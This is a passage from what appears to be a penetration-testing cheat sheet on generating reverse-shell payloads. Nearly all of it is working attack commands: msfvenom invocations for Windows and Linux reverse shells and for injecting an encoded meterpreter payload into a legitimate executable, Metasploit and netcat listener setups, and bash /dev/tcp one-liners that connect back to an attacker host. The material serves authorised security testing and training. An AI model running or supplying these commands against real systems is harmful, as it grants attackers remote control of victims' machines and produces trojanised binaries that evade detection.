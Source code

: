 #### Non-staged payload

```text
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```text
Catch with Metasploit:
----------------------------------------
use exploit/multi/handler
set payload windows/shell_reverse_tcp

Catch with Netcat:
----------------------------------------
$ nc -nlvp <LPORT>
```

#### Staged payload

```text
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```text
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

### Inject payload into binary

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Linux

### Binary

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

### Bash

```text
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```text
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
